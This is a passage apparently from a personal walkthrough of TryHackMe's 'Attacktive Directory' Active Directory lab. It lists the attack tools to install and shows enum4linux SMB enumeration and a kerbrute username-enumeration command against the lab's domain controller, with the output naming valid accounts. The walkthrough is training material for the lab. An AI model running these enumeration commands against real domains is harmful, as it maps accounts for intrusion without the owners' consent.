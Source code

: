 ```yaml
---
title: "TryHackMe Attacktive Directory Walkthrough - Active Directory Exploitation Guide"
description: "Complete walkthrough of TryHackMe's Attacktive Directory room. Learn Active Directory attacks, Kerberos exploitation, and Windows domain security assessment."
keywords: ["tryhackme attacktive directory", "active directory attacks", "kerberos exploitation", "domain attacks", "windows security", "ad exploitation"]
tags: ["tryhackme", "active-directory", "kerberos", "domain-attacks", "windows"]
sidebar_position: 8
---
```


:::info Description

These are my notes for the ["Attacktive Directory"](https://tryhackme.com/room/attacktivedirectory) Room on TryHackMe. This was a walk-through styled room so all the instructions were there, these are just my notes.

Credits: S/o to hunterbot for the assist, and Doxum and Noodles for hanging out no the stream :)

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Medium|3/5|

:::

The room says we need to install the following:

* bloodhound & neo4j
* impacket
* [kerbrute](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64)

## RECON

### Scan

No network scanning this time, we know its Active Directory so straight to enumeration.

### Enumerate

smb enumeration: `enum4linux -U -M 10.10.75.101`

install kerbrute, download the THM provided `userlist.txt` and `passwordlist.txt`:

run: `kerbrute userenum --dc $AD_IP -d THM-AD userlist.txt` to check which usernames in our list are VALID

```bash
└─$ kerbrute userenum --dc 10.10.75.101 -d THM-AD userlist.txt                                              1 ⨯ 1 ⚙

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/15/22 - Ronnie Flathers @ropnop

2022/03/15 21:43:16 >  Using KDC(s):
2022/03/15 21:43:16 >   10.10.75.101:88

2022/03/15 21:43:17 >  [+] VALID USERNAME:       james@THM-AD
2022/03/15 21:43:22 >  [+] VALID USERNAME:       svc-admin@THM-AD
2022/03/15 21:43:28 >  [+] VALID USERNAME:       James@THM-AD
2022/03/15 21:43:30 >  [+] VALID USERNAME:       robin@THM-AD
2022/03/15 21:43:55 >  [+] VALID USERNAME:       darkstar@THM-AD
```